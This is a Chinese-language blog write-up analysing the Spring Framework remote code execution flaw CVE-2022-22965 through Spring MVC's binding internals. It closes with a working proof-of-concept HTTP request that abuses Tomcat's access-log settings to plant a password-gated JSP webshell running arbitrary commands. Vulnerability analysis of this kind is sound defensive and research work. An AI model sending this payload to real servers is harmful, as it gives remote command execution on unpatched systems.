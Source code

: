 ```yaml
---
title: "Spring Framwork RCE分析"
date: 2022-04-15T10:56:52+08:00
draft: true
image: https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151059216.png
description: 
comments: true
license: false
math: false
categories:
- note
tags:
- Spring
- Java
---
```


## Spring Framwork RCE分析

最近出的CVE-2022-22965其实是CVE-2010-1622的绕过，大致原理是Spring MVC在参数绑定时，会将用户传入的参数注入到pojo对象中，因为在数据绑定的过程中能获取到classLoader，导致用户可以通过classLoader修改Tomcat的配置属性来执行危险操作

### 影响版本

Spring Framework

- 5.3.0 to 5.3.17
- 5.2.0 to 5.2.19
- 其他一些老旧的不受支持的版本



### Spring MVC 参数绑定流程

我们首先创建一个用户类

```
public class User {
    private String id;
    private String name;
    ......补充其 get set toString 方法
}
```

直接在参数中写上对应 User 类型就可以了

```
@RequestMapping("objectType.do")
@ResponseBody
public String objectType(User user) {
    return user.toString();
}
```

访问`http://localhost:8080/objectType.do?id=001&name=Steven`

返回结果：`User{uid='001', name='Steven'}`

详细可看：[SpringMVC参数绑定入门就这一篇](https://segmentfault.com/a/1190000022586808)

下面是代码层面：

`DispatcherServlet`是 SpringMVC 工作流程的中心，用户请求经过`Filter`和`Interceptor`之后会被`DispatcherServlet`分配到具体的`Controller`，具体是在dodispatch方法里：

![image-20220414175620272](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046343.png)

在doDispatch方法里面，获取处理器适配器再调用后端处理器中的方法：

![image-20220414180105645](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046460.png)

适配器调用后端处理器时候会调用`ModelAttributeMethodProcessor#resolveArgument`来处理请求参数，`resolveArgument`具体是调用`this.bindRequestParameters`：

![image-20220414180227761](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046388.png)

`bindRequestParameters`调用`ServletRequestDataBinder#bind`：

![image-20220414203347627](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046198.png)

下边会走到`DataBinder#doBind`，这里调用`DataBinder#applyPropertyValues`，断点处的`this.getPropertyAccessor()`获得的是一个`BeanWrapperlmpl`对象，接下来就会走到`org.springframework.beans`里面：

![image-20220414175006099](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046172.png)

`BeanWrapperlmpl`继承了`org.springframework.beans.AbstractPropertyAccessor`

`BeanWrapperImpl`具体实现了创建，持有以及修改bean的方法。
其中的`setPropertyValue`方法可以将参数值注入到指定bean的相关属性中(包括list,map等)，同时也可以嵌套设置属性。

这里调用了`setPropertyValues`方法遍历`propertyValue`，并循环调用`setPropertyValue`方法设置属性值：

![image-20220414175129097](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046195.png)



经过剩下的一系列调用，最终会走到`org.springframework.beans.BeanWrapperImpl.BeanPropertyHandler#setValue`

这里先去获取目标bean的setter，再反射调用：

![image-20220414194956957](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046291.png)

这样就实现了Request参数和bean属性的绑定



### 漏洞原理

在上一部分遍历`propertyValue`并循环调用`setPropertyValue`方法设置属性值的时候，在设置之前有一个获得对应的类中参数操作`tokens=xxx`，具体是在`getPropertyAccessorForPropertyPath`里面获取的：

![image-20220414203807497](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151046284.png)

这个方法会递归获取参数值，循环查看参数中是否包含`[`、`]`、`.`若存在则按分割赋值给`nestedProperty`，再调用`getNestedPropertyAccessor`方法：

![image-20220414205520668](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151047675.png)

在`getNestedPropertyAccessor`方法里面会去获取缓存内省的结果`cachedIntrospectionResults`：

![image-20220414211225039](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151047987.png)

这个方法会调用`getBeanInfo`进而调用`java.beans.Introspector#getBeanInfo`去获取Bean的信息：（即Java内省）

![image-20220414213621130](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202204151047880.png)

这里就不得不说内省了：

> 内省(Introspector) 是Java 语言对 JavaBean 类属性、事件的一种缺省处理方法。其中的`propertiesDescriptor`实际上来自于对Method的解析。

意思就是，**只要有 getter/setter 方法中的其中一个，那么 Java 的内省机制就会认为存在一个属性**

Java Beans API的Introspector类提供了两种方法来获取类的bean信息：

```
BeanInfo getBeanInfo(Class<?> beanClass)
BeanInfo getBeanInfo(Class<?> beanClass, Class<?> stopClass)
```

这里就出现了一个使用时可能出现问题的地方：**如何没有传入`stopClass`，这样会使得访问该类的同时访问到`Object.class`**。

因为在java中所有的对象都会默认继承Object基础类而存在一个`getClass()`方法，所以会找到class属性。

如果我们更进一步：`Introspector.getBeanInfo(Class.class)`，那么就可以获取到**classLoader**。

与此相照应的，上图箭头处是CVE-2010-1622的修复，如果获取到`class.classLoader`就直接结束本次循环（不把本次结果存入`this.propertyDescriptors`）

最新的CVE-2022-22965用的是`class.module.classLoader`(jdk9+的Class对象增加了一个Module类的属性)，利用`module.getclassloader != class.classloader`绕过了这个限制。

拿到clasLoader之后和[Struts2 S2-020在Tomcat 8下的命令执行](https://cloud.tencent.com/developer/article/1035297)原理大致相同，也就是可以修改Tomcat的配置，造成任意文件写入。

### PoC

```http
GET /spring4shell/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

执行之后可以在`webapps/ROOT/tomcatwar.jsp`看到写入的Webshell。

>  注意：如果使用IDEA运行配置起的Tomcat的话，因为是映射的目录，所以Tomcat下面并不会有webshell，而是在IDEA的某个目录下，可以用everything搜索下

### Reference

https://blog.csdn.net/god_zzZ/article/details/124029497

https://cloud.tencent.com/developer/article/1035297

http://rui0.cn/archives/1158

https://vulhub.org/#/environments/spring/CVE-2022-22965/

https://segmentfault.com/a/1190000022586808
